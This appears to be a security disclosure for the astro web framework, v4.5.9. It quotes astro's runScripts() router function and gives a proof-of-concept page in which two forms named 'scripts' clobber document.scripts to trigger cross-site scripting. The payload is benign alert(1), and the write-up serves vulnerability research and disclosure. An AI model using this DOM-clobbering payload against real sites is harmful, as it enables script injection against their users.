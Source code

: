 ## astro

### Meta

+ Library: astro
+ Starts: 45.7K
+ Version: v4.5.9
+ Payload: ```<form name="scripts">alert(1)</form><form name="scripts">alert(1)</form>```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk


### Library

URL: 
+ `https://github.com/withastro/astro`


### Vulnerable Code Snippet

```javascript
// https://github.com/withastro/astro/blob/7814a6cad15f06931f963580176d9b38aa7819f2/packages/astro/src/transitions/router.ts#L135-L156
function runScripts() {
	for (const script of Array.from(document.scripts)) {
		if (script.dataset.astroExec === '') continue;
		const type = script.getAttribute('type');
		if (type && type !== 'module' && type !== 'text/javascript') continue;
		const newScript = document.createElement('script');
		newScript.innerHTML = script.innerHTML;
		for (const attr of script.attributes) {
			newScript.setAttribute(attr.name, attr.value);
		}
		newScript.dataset.astroExec = '';
		script.replaceWith(newScript);
	}
}

runScripts();
```

### PoC
```html

<!--Library-->
<script>
function runScripts() {
	for (const script of Array.from(document.scripts)) {
		if (script.dataset.astroExec === '') continue;
		const type = script.getAttribute('type');
		if (type && type !== 'module' && type !== 'text/javascript') continue;
		const newScript = document.createElement('script');
		newScript.innerHTML = script.innerHTML;
		for (const attr of script.attributes) {
			newScript.setAttribute(attr.name, attr.value);
		}
		newScript.dataset.astroExec = '';
		script.replaceWith(newScript);
	}
}

runScripts();
</script>
<!--Library-->

<!--Payload-->
<form name="scripts">alert(1)</form>
<form name="scripts">alert(1)</form>
<!--Payload-->
```